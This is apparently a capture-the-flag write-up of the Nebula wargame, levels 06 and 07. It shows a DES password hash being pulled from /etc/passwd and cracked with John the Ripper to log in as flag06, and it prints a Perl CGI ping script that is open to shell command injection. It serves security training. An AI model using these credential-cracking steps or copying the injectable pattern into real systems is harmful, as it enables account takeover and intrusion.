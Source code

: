 ## level06

[Level06's Description](https://exploit-exercises.com/nebula/level05/):

> The flag06 account credentials came from a legacy unix system.

Legacy unix system? This immediately had me thinking that the password hash may be in `/etc/passwd`. Older unix systems used to store passwords this way, but that is no longer the case.

```bash
level06@nebula:~$ cat /etc/passwd| grep flag06
flag06:ueqwOCnSGdsuM:993:993::/home/flag06:/bin/sh
```

The hash `ueqwOCnSGdsuM` is something that I had to send to `john` to crack. So I just copied it over to a Kali linux instance and attempted to crack it with brute force. It took a few micro seconds to crack :P

```bash
~ # cat hash
ueqwOCnSGdsuM

~ # john hash
Loaded 1 password hash (Traditional DES [128/128 BS SSE2])
hello            (?)
guesses: 1  time: 0:00:00:00 DONE (Fri May  8 17:29:20 2015)  c/s: 102400  trying: 123456 - Pyramid
Use the "--show" option to display all of the cracked passwords reliably
```

The password is `hello`.
So, to solve level06:

```bash
level06@nebula:~$ su - flag06
Password:
flag06@nebula:~$ getflag
You have successfully executed getflag on a target account
```

## level07

[Level07's Description](https://exploit-exercises.com/nebula/level07/):

> The flag07 user was writing their very first perl program that allowed them to ping hosts to see if they were reachable from the web server.

With the description we are provided with the source code of a small Perl program:

```perl
#!/usr/bin/perl

use CGI qw{param};

print "Content-type: text/html\n\n";

sub ping {
  $host = $_[0];

  print("<html><head><title>Ping results</title></head><body><pre>");

  @output = `ping -c 3 $host 2>&1`;
  foreach $line (@output) { print "$line"; }

  print("</pre></body></html>");

}

# check if Host set. if not, display normal page, etc

```